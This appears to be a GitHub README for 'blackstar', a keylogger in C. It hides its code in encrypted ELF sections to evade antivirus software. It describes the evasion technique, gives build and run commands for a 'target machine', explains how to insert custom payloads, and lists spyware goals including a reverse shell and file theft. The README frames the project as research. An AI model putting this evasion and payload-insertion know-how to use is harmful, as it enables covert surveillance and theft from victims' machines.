 # blackstar

blackstar is a Polymorphic Keylogger written in C, for research purposes only.
It is based on the [whitecomet project](https://github.com/PoCInnovation/Whitecomet-Research).

## Introduction

The goal of the project was to build some knowledge regarding obfuscation,
 as well as Advanced Unix Programming. To achieve that, I looked at how the
 Whitecomet project managed to work around anti-viruses, and I implemented it in
 a [keylogger](github.com/bogdzn/keylogger) I had written before.

### how does whitecomet work ?

To hide malicious code, Whitecomet exploits sections of an ELF binary. It has one
 section for the malicious code, one for the decryption key, and one for a boolean,
 set if the code is encrypted.  Once started for the first time, the program will
 read itself and decrypt the code, then execute it. In WhiteComet's case, the
 malicious code was a [reverse-shell](https://fr.wikipedia.org/wiki/Reverse_shell).

### What are our objectives, then ?

First, we want to understand how to create and manipulate section to change our
binary. Then, we will find a better way to hide our code, because the current
method has some limitations.

### WhiteComet's AV-evasion limitations

Although it is a really cool project, there are still limitiations for the
current approach Whitecomet uses. The first one is that when inspecting the
binary, the sections are one of the first things a researcher looks at. Second is
 that it requires a setup that is not very easy to modify. You must get the exact
 size of your section, so that you decrypt a fixed length. Third is that you still
leave a lot of information present in the binary, that make it easier for somebody
to get clues about what your program does.
We hope to tackle at least some of these problems.

## How do I build the project ?

```bash
# this will encrypt the binary with the bin stored in crypter/
make

# run once to decrypt the program
./blackstar

# run with admin privileges on the target machine
./blackstar -i 192.168.1.69 -p 6969

# clean the repo like so
make fclean
```

## Can I add my own payload instead of using the one that is present ?

Yes, you can ! But you will need to change the `ELF_FUNC_SIZE` according to your
section's size. To check your section size, compile the program without the UPX
packer, and call `size -d -A blackstar` to get the size of all section. You will
need to find the section named as `ELF_CODE` (by default `.banshee`).

To add some code in the section, create a normal C function and add the
`__attribute__((section(ELF_CODE)))` in front of the declaration. You can find
an example in `payload.c`.

## Roadmap

- [x] Crypt the virus from another program
- [ ] Create a library for all the common code
- [ ] Create a usable and working spyware, reading and transmitting important files,
    logging keystrokes, and setting up a revshell
- [ ] Add some encryption methods
- [ ] Add python webserver to get a nice web interface with all the retrieved data
